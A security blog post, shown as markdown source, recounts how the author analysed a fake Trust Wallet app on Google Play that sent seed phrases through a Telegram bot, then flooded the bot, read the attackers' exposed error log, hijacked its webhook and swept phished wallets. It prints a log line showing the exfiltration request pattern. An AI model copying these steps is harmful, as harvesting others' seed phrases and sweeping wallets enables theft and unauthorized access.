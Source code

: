 ```yaml
---
slug: "intercepting-and-saving-5-000-worth-of-phished-crypto"
title: "Intercepting and Saving $5,000 Worth of Phished Crypto"
date: 2020-07-01 00:00:00 +0100
type: blog
meta_img: /images/.common/meta.png
meta_desc: "A special occurrence. I managed to rescue $5k of stolen funds and return it to the owner."
comments: true
hidden: false
tags: "security,phishing,recovery"
---
```


**This is a special occurrence.**

We write a lot about phishing, but it’s not every day that you have the opportunity to save phished funds and give them back to the victim.

**This user unfortunately installed a fake version of Trust Wallet via the Google Play store.**

We’ve [written about malicious APKs in the past](/discovering-fake-trezor-metamask-and-mycrypto-android-apks) that target cryptocurrency users, but they were hosted on third-party sites. The one we are writing about today was actually in the official Google Play store, highly ranked, and had a lot of user reviews, downloads, and a decent 3 and 1/2 star rating.

![Note: the namespace of the app is `com.trust.manager.app` whereas the official namespace is `com.wallet.crypto.trustapp`.](./images/intercepting-and-saving-5-000-worth-of-phished-crypto/0.png)

I downloaded this app into a sandbox and decompiled it with [apktool](https://ibotpeaches.github.io/Apktool/). I was expecting keys to be sent to a Firebase database, per usual, but this one operated differently.

This application loaded a domain (trustapp.ltd) into a [WebView](https://developer.android.com/reference/android/webkit/WebView) (which was branded similarly to Trust Wallet) and prompted the user to enter their mnemonic phrase.

![](./images/intercepting-and-saving-5-000-worth-of-phished-crypto/1.png)

As soon as the user clicks the “Restore Wallet” button, their input is sent to a server-side script called process_login.php and the user sees an error state view.

![](./images/intercepting-and-saving-5-000-worth-of-phished-crypto/2.png)

This is the app in its entirety — it does nothing else. In fact, this technique of showing the user an error state and asking them to try again was actually pretty efficient — it got a lot of users to enter their secrets more than once.

While inspecting the domain, I noticed they had a misconfiguration with their Apache web server and they were exposing their error_log. This was exceptionally handy because of their shoddy code. Their code merely relayed everything to a Telegram API endpoint via file_get_contents (note: this is [the wrong PHP function to call to make such request](https://stackoverflow.com/a/33303776/3000179) due to the default configuration on some servers, and it doesn’t allow you to correctly error handle, unlike [curl](https://www.php.net/curl)).

Because of the lack of error handling in their script, it allowed me to cause a [Telegram HTTP 429 error](https://core.telegram.org/bots/faq#broadcasting-to-users) for their bot by sending a lot of requests in a short period of time. This then logged the unhandled error into their exposed error_log and gave me their Telegram bot API keys.

```txt
PHP Warning:  file_get_contents(https://api.telegram.org/bot1001899136:<secret>/sendMessage?chat_id=-1001173902674&amp;text=<mnemonic_phrase>): failed to open stream: HTTP request failed! HTTP/1.1 400 Bad Request in /home/trusxmko/public_html/login/process_login.php on line 20
```

![Data flow of the application](./images/intercepting-and-saving-5-000-worth-of-phished-crypto/3.png)

Now that I had their secrets, I was able to hit the Telegram API directly with a simple flood (i.e., force the [HTTP 429](https://httpstatuses.com/429) state on their bot), which caused the secrets being entered on their domain to be logged into their error_log instead of being sent to their private chat on Telegram.

![](./images/intercepting-and-saving-5-000-worth-of-phished-crypto/4.png)

All I had to do now was periodically fetch their error_log and parse it to fetch all the secrets entered, then pass them into my custom sweeper. Essentially, I was sitting in the middle of their phishing kit and their c2 Telegram private chat by DoSing their bot.

![](./images/intercepting-and-saving-5-000-worth-of-phished-crypto/5.png)

I quickly set up a worker to grab their `error_log` every 180 seconds and plugged it into my custom sweeper. Now all I had to do was monitor the bots — ensuring I was still flooding their Telegram private chat and fetching the `error_log`.

Whilst I had that running, I noticed I could set up a webhook on their Telegram bot so that it would send me all channel updates for all messages sent by users (not the messages from the bot itself). I was essentially using their own bot to report to me their private conversations.

I only received a couple of updates from the webhook, but it did give me some good data. The people behind this phishing campaign had the nickname “George” (Telegram UID: 1168515438). The account was set to and spoke Turkish. Here are some messages I received from the user

```txt
Original: valletin birinden 4k vurdum harcamalar icin. onu buna \u00e7ektim

Translated: I shot 4k from one of the vallet for spending. I took it \ u00e7

--

Original: 900 dolar eth var trusttan => {$mnemonic_phrase}

Translated: Have $ 900 eth trusttan => {$mnemonic_phrase}

--

Original: trusttan geldi ,+5k usd => {$mnemonic_phrase}

Translated: came from trust, + 5k usd => {$mnemonic_phrase}

--

Original: + olarak tokenler var

Translated: There are + tokens

--

Original: ++ vurduk ama adam son anda ay\u0131kt\u0131 ethleri cekemedik

Translated: ++ we hit, but the man couldn't shoot the moon ıkt \ u0131 eths at the last minute
```

I managed to sweep a good amount of funds for the time that I went undetected (I carried this out between 2020–06–28 1630UTC+1 until 2020–06–29 0700UTC+1) as they finally noticed me flooding their chats with over 50k messages.

* They most likely had to scrap the data for that time period as there was too much spam to filter through
* It allowed me to buy some time for users who were phished that I did not manage to catch in time, as the malicious APK has been up for a couple of days now

Once they noticed me around 0700UTC+1, they created an Apache rule to 403 the error_log and then they deleted the Telegram bot. They have most likely created another Telegram bot, but I will continue to flood them from various locations by creating HTTP requests to POST process_login.php. This will spam their logs with more random phrases to buy more time for those who were phished and create more work for them to filter through the noise.

Here’s a dump of the Telegram API responses (that do not contain any user secrets) that might help with investigations:

```txt
#getMe
{
 "ok": true,
 "result": {
  "id": 1001899136,
  "is_bot": true,
  "first_name": "FuckerBot31",
  "username": "FuckersssBot",
  "can_join_groups": true,
  "can_read_all_group_messages": false,
  "supports_inline_queries": false
 }
}

#getChat
{
 "ok": true,
 "result": {
  "id": 1168515438,
  "first_name": "George",
  "type": "private"
 }
}
```

### Returning The Funds
Since I was able to see the phishing transactions, I could see the addresses of the victims. I searched for the highest-value address on Twitter and got a result, and confirmed that they were aware that they had been phished.

I was able to verify ownership by having the user sign a specific message with his keys, and once confirmed, I returned the cryptocurrency that I had been able to intercept.

### Protect Yourself
If you’ve recently entered your mnemonic phrase into an interface and experienced the same user journey as described at the start of the article, please create a fresh seed on trusted software [that you can verify](https://support.mycrypto.com/staying-safe/verifying-authenticity-of-desktop-app). Then you will need to migrate all your funds to your new address.

You will need to audit all of your apps to ensure the ones you are running are legitimate. You will need to uninstall all the non-legitimate ones and do an audit on what could have been compromised.

Learn to [protect yourself and your funds](https://support.mycrypto.com/staying-safe/protecting-yourself-and-your-funds).